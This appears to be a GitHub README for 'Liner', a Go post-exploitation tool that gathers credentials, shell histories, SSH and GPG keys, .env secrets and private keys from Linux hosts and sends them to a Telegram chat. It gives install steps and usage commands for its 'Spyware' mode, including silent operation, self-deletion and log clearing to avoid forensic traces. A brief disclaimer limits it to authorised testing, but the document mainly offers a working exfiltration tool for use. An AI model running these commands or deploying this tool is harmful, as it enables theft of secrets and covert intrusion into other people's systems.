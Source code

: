##  Liner - Post-Exploitation Data Exfiltration Tool via Telegram

**Liner** is a lightweight post-exploitation utility designed for rapid data collection and exfiltration from compromised Linux systems.  
It targets sensitive artifacts such as credentials, session tokens, private keys, and developer secrets, packaging and transferring them securely via Telegram bot API.

Built in Go, it supports silent operation, automated cleanup, and concurrent file transmission — making it ideal for stealthy, fast, and low-noise data exfiltration in red team operations or adversary simulation.

> ⚠️ **Disclaimer:** This tool is intended **strictly for educational and authorized security testing**. Unauthorized use is illegal and unethical.

---

### 🔧 Features

- Collects a wide range of sensitive files:
  - Stored credentials, shell histories, SSH keys, GnuPG data, API tokens, `.env` secrets, and more.
- Generates full directory tree structure for reconnaissance and documentation purposes.
- Compresses and optionally splits collected data for optimized transfer.
- Sends exfiltrated data directly to a specified Telegram chat using a bot token.
- Supports:
  - **Silent execution** (`--silent`) to suppress terminal output.
  - **Self-deletion** of the binary after successful execution to minimize footprint.
  - **Concurrent uploading** to accelerate data transmission under rate-limited environments.

---

### 📦 Requirements

Install required packages:

```bash
sudo apt install zip coreutils tree
```

Also required:

- A **Telegram bot token** ([@BotFather](https://t.me/BotFather))
- A **Telegram chat ID** (user or group)

---

### 🚀 Installation

```bash
git clone https://github.com/Nowafen/liner.git
cd liner
go build -v -o liner ./cmd

mv liner /usr/bin
chmod +x /usr/bin/liner

```

Verify installation:

```bash
liner --version
# Output: Liner version: x.x
```

---

### 🛠️ Usage

Basic syntax:

```bash
liner --mode Spyware --dump <TYPE> --token <TOKEN> --id <CHAT_ID> [options]
```

#### Required Flags

- `--mode Spyware` (only mode supported for now)
- `--dump`:  
  - `Credentials`: .git-credentials, keyrings  
  - `Password`: .bash_history, .zsh_history  
  - `Session`: .ssh, .gnupg  
  - `privateDATA`: *.env, *.pem, secrets  
  - `all`: Everything above
- `--token`: Your Telegram bot token
- `--id`: Telegram chat ID

#### Optional Flags

- `--silent`: Suppress all output
- `--version`: Show current version
- `--update`: Check for new version
- `--help`: Show help message

---

### 💡 Examples

```bash
sudo liner --mode Spyware --dump Password --token <BOT_TOKEN> --id <CHAT_ID>
```

```bash
sudo liner --mode Spyware --dump all --token <BOT_TOKEN> --id <CHAT_ID> --silent
```

---

### 🧠 How It Works

1. **Environment Validation:**  
   Ensures the target system is Linux-based before proceeding.

2. **Targeted Data Collection:**  
   Retrieves files based on the selected `--dump` category (e.g., credentials, sessions, secrets).

3. **Filesystem Mapping:**  
   Executes a recursive directory scan using `tree` to provide structural context.

4. **Data Packaging:**  
   Archives all collected data into `liner_data.zip`.  
   - If total size exceeds 48MB, archive is split into 25MB chunks for reliable transfer.

5. **Stealth Exfiltration via Telegram:**  
   Sends an initial message, directory map, and zipped payload to the configured Telegram chat using the bot API.

6. **Cleanup & Evasion:**  
   Removes temporary artifacts, clears relevant logs, and optionally self-deletes the binary to minimize forensic traces.

---

### ⚙️ Troubleshooting

- **Upload fails with `429 Too Many Requests` or times out?**  
  Telegram may be throttling API requests. Try reducing the upload concurrency in `core/telegram.go` or increase delay between sends.

- **No data received in chat?**  
  Ensure:
  - You are using a valid `--token` and `--id`
  - The specified `--dump` target contains data
  - Sufficient permissions (`sudo`) are granted

- **Split archive reassembly (receiver side):**

```bash
cat part_* > liner_data.zip
unzip liner_data.zip
```
---

###### 🤝 Contributing

Pull requests and issues are welcome. Let’s improve this project together.


### 📜 License

This project is **proprietary and closed-source**.  
All rights reserved © 2025 [MNM]  
Unauthorized copying, distribution, or modification of any part of this codebase is strictly prohibited.

For collaboration or usage inquiries, please contact: [https://t.me/mnmsec]



// Developed by [MNM]
// Uploaded: July 2025

